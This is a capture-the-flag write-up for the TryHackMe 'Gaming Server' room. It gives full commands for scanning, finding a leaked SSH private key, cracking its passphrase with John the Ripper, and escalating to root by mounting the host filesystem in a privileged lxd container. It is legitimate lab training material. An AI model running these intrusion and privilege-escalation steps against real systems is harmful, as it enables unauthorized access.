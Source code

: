 ```yaml
---
layout: post
title: "Gaming Server"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [private-key, ssh2john, password-cracking, lxd]
image: ../../assets/img/posts/gamingserver.png 

---
```


## Description

Learn to hack into this machine. Understand how to use SQLMap, crack user passwords, reveal services using a reverse SSH tunnel, and escalate your privileges to root!

|**Room**|[Gaming Server](https://tryhackme.com/room/gamingserver)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[SuitGuy](https://tryhackme.com/p/SuitGuy)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.144.153
```

![image](https://user-images.githubusercontent.com/67465230/186084579-4a9c8175-5e02-474a-be12-49dabf93c007.png)

This reveals 2 open ports. Lets scan them using nmap,

```bash
nmap -sC -sV -p22,80 10.10.144.153 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084629-457a49dd-529c-4a34-b638-d6d7e9ebca9a.png)

Looks like port 22 is running ssh service and port 80 is running a webserver. Starting enumeration of port 80.

Visit http://10.10.144.153,

![image](https://user-images.githubusercontent.com/67465230/186084672-75f75382-069a-428f-9cbf-3839cec30079.png)

and we get stumble on a primitively build webpage, which has nothing interesting in it except it's source code page.

Scrolling down, there is a comment for John(username enumeration),

![image](https://user-images.githubusercontent.com/67465230/186084721-7036d186-cc9c-43ce-b135-ebc8e8fd8b9b.png)

Now, we need to find hidden directories,

```bash
dirsearch -u http://10.10.144.153 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186084760-bc9edc9f-25b4-44de-af74-ae87d0098757.png)

we got 2 hidden directories.

Visit http://10.10.144.153/secret,

![image](https://user-images.githubusercontent.com/67465230/186084800-cad2b60a-5e38-469e-bf37-b9410fbc95a8.png)

we got a file named **secretKey**. Maybe there is something useful for us. Let's find out.

Opening this file and I saw the private id_rsa key,

![image](https://user-images.githubusercontent.com/67465230/186084857-6b884158-96c1-4125-a0d8-1d927deda901.png)

Copy this key into secretkey file and we will use ssh2john script to convert this key into crackable hash, 

```bash
/usr/share/john/ssh2john.py secretkey > crackme
```

Now using JTR, we can crack this hash and obtain the password,

```bash
john crackme --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084905-8e49dbc0-e4f5-41d0-91ce-4d47867c92b6.png)

we got the password to login via ssh.

Now, changing the mode of the secretkey to give it suitable permissions, 

```bash
chmod 600 secretkey
```

Now we need to hop into machine as john user using secretkey,

```bash
ssh -i secretkey john@10.10.6.96
```

![image](https://user-images.githubusercontent.com/67465230/186084950-948e24eb-b6c6-4248-b094-28a217283448.png)

and we got in.

Enumerating directory and we got user flag,

![image](https://user-images.githubusercontent.com/67465230/186084993-7dd7907a-224d-4f0d-a204-66c59e277309.png)

Now, Issuing `id`command tells us that we are john user and we are in **lxd** group,

![image](https://user-images.githubusercontent.com/67465230/186085033-f744f349-312b-4096-9e1e-99edb2b0e43e.png)

By viewing that user john is in lxd group means we can abuse the lxd functionality to become system user. There is a great article on [Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

Now, we have to download the alpine builder from github and follow some commands,

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This will build up the package for us.

Now that our package is built, we need to start a python server to host this package on remote machine, `python3 -m http.server`

Navigating to /tmp directory and downloading this file using wget command,

![image](https://user-images.githubusercontent.com/67465230/186085073-4ee731b4-d751-41c3-a7d0-b8403b3412d6.png)

At first, we need to import the image into lxc image list as myimage,

```bash
lxc image import ./alpine-v3.14-x86_64-20210810_1625.tar.gz --alias myimage
```

![image](https://user-images.githubusercontent.com/67465230/186085119-73358c85-02fd-4669-b023-9f94ccf212e9.png)

Now, listing all images again,

```bash
lxc image list
```

![image](https://user-images.githubusercontent.com/67465230/186085146-6d1ab25e-fb6f-47fb-82d3-b12a0e3d52d0.png)

our image is now successfully added.

Now, to exploit the lxd, we need to execute command below,

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

>In the above commands we created a container named gaming having all the privileges and mounted the /root directory to /mnt/root then executed /bin/sh

and when we issue `id` command, it will show us that we are **root**.

Navigating to directory we mounted,

![image](https://user-images.githubusercontent.com/67465230/186085187-f0c3fdcd-fd28-4af9-b6a2-a79195268c6f.png)

we can see the system path with many directories (from root user perspective.).

Navigate to /mnt/root/root will let us have our root flag.
